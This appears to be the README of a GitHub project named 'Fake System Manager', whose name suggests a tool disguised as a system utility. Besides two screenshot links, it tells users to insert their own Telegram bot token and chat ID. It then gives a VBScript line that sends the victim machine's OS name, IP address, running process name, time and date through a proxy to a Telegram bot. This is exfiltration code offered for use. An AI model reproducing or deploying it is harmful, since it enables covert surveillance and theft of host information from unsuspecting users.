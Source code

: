 # FSM
Fake System Manager
## Image
<img width="1919" height="1019" alt="image" src="https://github.com/user-attachments/assets/5d06101d-e1f9-422e-8e38-708ccefd61f3" />
<img width="497" height="1000" alt="image" src="https://github.com/user-attachments/assets/9831bab9-8dcc-4610-a269-67a418a01dbc" />
## Change
<pre>Token Bot Telegram & Chat ID</pre>
```VBS
http.Open "GET", "https://telegram.mrsaad.workers.dev/bot{TOKEN}/sendMessage?chat_id={ID}&text=" & os.Caption & " - " & ip.IPAddress(0) & " : " & objProcess.Name & " - " & Time & " - " & Date, False
```
